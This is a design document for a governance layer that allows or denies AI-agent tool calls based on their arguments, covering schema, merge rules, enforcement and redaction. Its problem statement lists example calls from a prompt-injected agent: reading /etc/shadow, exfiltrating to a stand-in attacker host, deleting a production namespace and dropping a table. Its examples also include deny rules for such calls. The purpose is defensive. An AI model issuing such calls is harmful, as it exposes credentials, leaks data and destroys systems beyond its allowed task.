

# Phase 3 — Tool/MCP Argument Constraints

> **Status:** Design. No code change yet. Defines an argument-level governance layer for `ToolPolicy`/`PolicyRules` and the tool-gateway contract: allow/deny a tool call based on **its arguments**, not just its name. Schema + merge semantics + enforcement hook + evidence shape are specified here; implementation is a later slice (control-plane schema first, then tool-gateway evaluation). Extends [`phase-3-tool-gateway-contract.md`](phase-3-tool-gateway-contract.md).

## Problem

Today tool governance is **name-granular**: `allowedTools` / `deniedTools` decide whether `read_file` or `kubectl` may be called at all (see `internal/enforcement/toolgateway/evaluate.go`). That is too coarse for the threat model in the product vision (*"malicious or overbroad tools, credential exfiltration, unexpected … unsafe file writes, unapproved production actions"*). A prompt-injected agent abuses **allowed** tools with dangerous arguments:

- `read_file({path: "/etc/shadow"})` — an allowed reader pointed at secrets.
- `http_request({url: "https://exfil.attacker.tld", ...})` — an allowed fetch tool used to exfiltrate.
- `kubectl({args: ["delete", "ns", "prod"]})` — an allowed admin tool doing a destructive action.
- `db_query({sql: "DROP TABLE ..."})` — an allowed query tool issuing a mutation.

Name-level allow/deny cannot express "allow `read_file` only under `/workspace`" or "deny `kubectl delete` in prod". This doc adds an **argument constraint** layer that the tool gateway evaluates per call, with the same declared-policy / propagated / observed / enforced distinction Relay already uses (env vars propagate; the gateway enforces; status records evidence).

## Non-goals

- **No enforcement implementation in this slice.** This is schema + contract design only; the tool gateway (`internal/enforcement/toolgateway`) wires it in a later slice.
- **No general policy engine yet.** v1 uses structured matchers, not CEL/Rego/JSONLogic. A full expression language is a tracked open question, not this slice.
- **No MCP tool-schema validation.** Relay does not fetch or validate each tool's JSON schema; it matches against the argument object as observed at the gateway.
- **No new CRD.** Argument constraints extend the existing `ToolPolicy` CRD and `PolicyRules`; they do not add a CRD.
- **No change to name-level rules.** `allowedTools`/`deniedTools`/caps keep their current meaning; argument constraints are an *additional* gate applied only to calls that already passed the name gate.

## Evaluation order (where argument constraints fit)

Argument constraints run **after** the existing name/approval checks, only for a call that would otherwise be allowed:



Mode semantics are unchanged and reuse `enforcement.EvaluateRestrictive`: in `enforced` a constraint violation **blocks**; in `dry-run`/`audit-only` it is recorded (`dry-run`/`audit`) and allowed through.

## Proposed schema

Add an optional `argumentRules` list to `ToolPolicySpec` (and the merged `PolicyRules`). Each entry binds one or more tools to a set of argument constraints.

```go
// ToolArgumentRule constrains the arguments of matching tool calls. It applies only to
// calls that already passed name-level allow/deny.
type ToolArgumentRule struct {
    // Tools lists the tool identifiers this rule applies to. "*" matches any tool.
    // +kubebuilder:validation:MinItems=1
    Tools []string `json:"tools"`

    // Server optionally scopes the rule to a single MCP server / provider id.
    // +optional
    Server string `json:"server,omitempty"`

    // Constraints are ANDed: every constraint must pass for the call to be allowed by
    // this rule. An empty list is a no-op (rejected by validation).
    // +kubebuilder:validation:MinItems=1
    Constraints []ArgumentConstraint `json:"constraints"`
}

// ArgumentConstraint matches one argument value and declares whether the match allows or
// denies the call. Constraints are structured (not an expression language) for v1.
type ArgumentConstraint struct {
    // Arg is a dotted path into the (JSON object) tool arguments, e.g. "path",
    // "url", "args[0]", "options.recursive". Missing paths are treated per Operator
    // (e.g. `Exists`=false). Required.
    Arg string `json:"arg"`

    // Op is the comparison operator.
    // +kubebuilder:validation:Enum=Equals;NotEquals;In;NotIn;Matches;NotMatches;HasPrefix;NotHasPrefix;Exists;NotExists
    Op ArgumentOperator `json:"op"`

    // Values holds the comparison operands (regex for Matches/NotMatches; literals
    // otherwise). Ignored for Exists/NotExists.
    // +optional
    Values []string `json:"values,omitempty"`

    // Effect declares what a *match* means. Deny (default): a match blocks the call.
    // Allow: the call is permitted only if this constraint matches (allowlist gate).
    // +kubebuilder:validation:Enum=Deny;Allow
    // +kubebuilder:default=Deny
    Effect ConstraintEffect `json:"effect,omitempty"`
}
```

Semantics for a single rule whose `Tools`/`Server` match the request:

- All `Deny`-effect constraints are checked first: **any** match → deny (`ArgumentDenied`).
- `Allow`-effect constraints form an allowlist: if a rule has ≥1 `Allow` constraint, **at least one** must match or the call is denied (`ArgumentNotAllowed`). (Within one `Arg`, `Allow` constraints are ORed; this expresses "path must start with `/workspace` *or* `/tmp`".)
- A rule with only `Deny` constraints permits anything not explicitly denied; a rule with `Allow` constraints is default-deny for that argument.

### Worked examples

```yaml
# Allow read_file/write_file only under /workspace; deny path traversal.
argumentRules:
  - tools: ["read_file", "write_file"]
    constraints:
      - { arg: "path", op: HasPrefix, values: ["/workspace/"], effect: Allow }
      - { arg: "path", op: Matches, values: ["\\.\\."], effect: Deny }
  # Deny destructive kubectl verbs regardless of namespace.
  - tools: ["kubectl"]
    constraints:
      - { arg: "args[0]", op: In, values: ["delete", "drain", "cordon"], effect: Deny }
  # Restrict an HTTP tool to an allowlisted host set.
  - tools: ["http_request"]
    constraints:
      - { arg: "url", op: Matches, values: ["^https://([a-z0-9-]+\\.)?internal\\.example\\.com/"], effect: Allow }
```

## Merge semantics (layered policies)

Consistent with existing `PolicyRules` merge (`internal/policy`), which is **most-restrictive-wins**:

- `argumentRules` from all matched layers (inline + referenced `ToolPolicy`s) are **concatenated** — every layer's rules apply. More rules can only *further constrain* a call, never loosen it.
- No de-duplication of semantically equivalent rules is required for correctness (duplicate denies are idempotent; duplicate allowlist gates intersect). The reconciler may dedupe identical entries for tidiness.
- A `Deny` match in **any** layer denies the call (deny precedence). `Allow` allowlists are evaluated **per rule**; because rules are ANDed across layers, adding an `Allow` rule in a stricter layer narrows the permitted set.
- This avoids a cross-layer "allow overrides deny" footgun: argument constraints can only tighten.

The merge writes a `policyDecisions` entry at resolution time (declared/propagated phase) summarizing that argument constraints are in effect (e.g. count of rules), mirroring how caps and tool rules already record a merge-time decision. The **per-call** decision is produced by the gateway at runtime.

## Propagation & enforcement hook

- **Propagation:** argument rules are too structured for a single env var. Propagate them to the gateway via the existing `GatewayConfig` (control-plane → sidecar config), not via `AGENT_*` env. The agent-facing env stays a coarse hint; the gateway holds the authoritative rules. (If a config channel beyond env is needed, that is the same gap the tool-gateway already has for richer config — track there, don't invent a new mechanism here.)
- **Gateway contract change (later slice):** extend `toolgateway.ToolRequest` with `Arguments map[string]any` (decoded JSON object) and `EvaluateTool` to evaluate `argumentRules` after the name checks, returning new reasons `ArgumentDenied` / `ArgumentNotAllowed`. Add the rules to `toolgateway.GatewayConfig`.
- **Assurance:** evaluation happens in the in-pod tool-gateway sidecar → evidence is `self-reported` (cooperative), exactly like today's tool decisions. No assurance upgrade is claimed; an out-of-pod gateway would be required for `observed`.

## Evidence & redaction

Argument values frequently contain secrets (tokens, SQL, file contents). Violation evidence must not leak them:

- A runtime `policyDecision`/`violation` for an argument constraint carries: `tool`, `server`, the matched **constraint** (arg path + operator + effect, **not** the operand values when they came from the request), and the reason code (`ArgumentDenied`/`ArgumentNotAllowed`).
- The **offending argument value is not stored verbatim.** Options (decide at implementation): omit it, store a length/sha256 prefix, or store only the matched policy operand (which is operator-defined, not attacker-controlled). Default: omit the request value; include the policy operand that matched.
- Redaction applies to logs and traces too (the gateway must not log raw arguments at info level).

## Invariants

- Argument constraints **only tighten**: a call allowed by name rules can be further denied, never re-allowed past a name-level deny.
- Evaluation is **deterministic and side-effect free**; same request + same effective policy → same decision.
- Mode semantics are unchanged (`enforced` blocks, `dry-run`/`audit-only` record-and-allow).
- No raw argument values in status/events/logs (redaction invariant above).
- Schema is **additive and optional**; existing `ToolPolicy` samples keep working unchanged.

## Migration plan (slices)

1. **This doc** (design). — *current*
2. **Control-plane schema** — add `ToolArgumentRule`/`ArgumentConstraint` to `ToolPolicySpec` + `PolicyRules`, kubebuilder validation, `ToolPolicyRules()` mapping, merge (concatenate) in `internal/policy`, and a merge-time `policyDecisions` summary. Manifests regenerated. No enforcement. (`make manifests && make test`)
3. **Gateway evaluation** — extend `toolgateway.ToolRequest.Arguments`, `EvaluateTool` (+ path resolver + matchers), `GatewayConfig`, and the sidecar `POST /v1/tools/invoke` to pass arguments; emit redacted runtime evidence. (`make test`)
4. **Live e2e** — argument-denied tool call → `403` (enforced) → `status.violations` with redacted detail (extends `test/e2e/tool_violation_test.go`).

## Open questions

1. **Expression language:** structured matchers (v1) vs CEL/Rego later. CEL would subsume operators + path access and handle nested/array logic, at the cost of a sandboxed evaluator in the gateway. Revisit if matchers prove too limiting; keep `ArgumentConstraint` shape forward-compatible (a `cel:` form could be an alternative `Op`).
2. **Argument path syntax:** dotted + `[index]` (proposed) vs JSONPath vs JSON Pointer. Dotted is simplest; JSONPath supports wildcards/filters but is heavier. Pick at slice 2.
3. **Default allow vs deny for unspecified args:** v1 = a constraint only governs the arg it names; unnamed args are unconstrained. A future "deny unknown arguments" toggle could be added per rule.
4. **Redaction of offending values:** omit vs hash vs operand-only (default operand-only). Confirm with security review at slice 3.
5. **Per-server vs per-tool scoping:** `Server` field included; do we also need per-`Method` scoping for MCP servers exposing many methods? Defer until a real MCP integration needs it.

## Related

- [`phase-3-tool-gateway-contract.md`](phase-3-tool-gateway-contract.md) — name-level tool governance + gateway API this extends.
- [`phase-3-enforcement-architecture.md`](phase-3-enforcement-architecture.md) — data-plane enforcement contract, modes, evidence/assurance.
- [`phase-5-approval-workflows.md`](phase-5-approval-workflows.md) — per-tool runtime approval (a complementary gate; argument constraints decide *automatically*, approval asks a *human*).
- Product vision *Policy And Enforcement Model* (declared vs propagated vs observed vs enforced) and *Trust And Threat Model* (overbroad tools, exfiltration).
